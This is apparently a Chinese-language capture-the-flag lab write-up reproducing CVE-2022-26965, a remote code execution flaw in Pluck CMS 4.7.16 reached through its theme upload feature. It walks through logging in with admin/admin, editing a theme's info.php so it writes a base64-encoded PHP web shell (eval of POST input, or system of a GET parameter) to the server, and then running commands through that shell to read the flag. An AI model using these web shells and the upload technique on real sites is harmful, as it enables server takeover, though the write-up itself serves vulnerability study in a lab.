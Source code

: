 ```yaml
---
title: CVE-2022-26965【RCE】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'RCE'
---
```


## 1. 漏洞介绍

Pluck是一套使用PHP语言开发的内容管理系统（CMS）。

Pluck CMS 4.7.16 版本存在代码问题漏洞，该漏洞源于Pluck CMS 4.7.16版本存在远程 shell 上传执行漏洞。

在 Pluck 4.7.16 中，管理员用户可以在 /admin.php?action=themeinstall中使用主题上传功能来执行远程代码执行。也就是上传的主题中的 info.php 会被执行，所以可以在 info.php 中实现服务器写马或RCE等的操作。

## 2. 影响版本

Pluck CMS 4.7.16版本

## 3. 漏洞复现

开启环境后利用admin/admin登录，找到主题上传界面。

GitHub 下载主题 [redline-theme](https://github.com/billcreswell/redline-theme/archive/refs/heads/master.zip)，解压后修改 info.php。

### 3.1. info 写马

```php
<?php @eval($_POST["shell"]) ?>
/*base64 编码后*/
PD9waHAgQGV2YWwoJF9QT1NUWyJzaGVsbCJdKSA/Pg==
```

- 主题文件修改

```php
<?php
  file_put_contents('shell.php',base64_decode('PD9waHAgQGV2YWwoJF9QT1NUWyJzaGVsbCJdKSA/Pg=='));
?>
```

- 主题修改后重新压缩【zip格式】上传，上传成功后切换主题。

![1.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281650169.png)

![2.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281651326.png)

![3.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281651757.png)

![4.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281652559.png)

### 3.2. info.php — RCE

```php
<?php system($_GET[cmd]);?>
PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOz8+
```

- 主题修改

```php
<?php
file_put_contents('shell.php',base64_decode('PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOz8+'));
?>
```

- 主题上传安装同理

- 获取flag

```php
http://eci-2zeehs3ye28jdhx2afbx.cloudeci1.ichunqiu.com/shell.php?cmd=cat /flag
```

![5.png](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202308281652363.png)

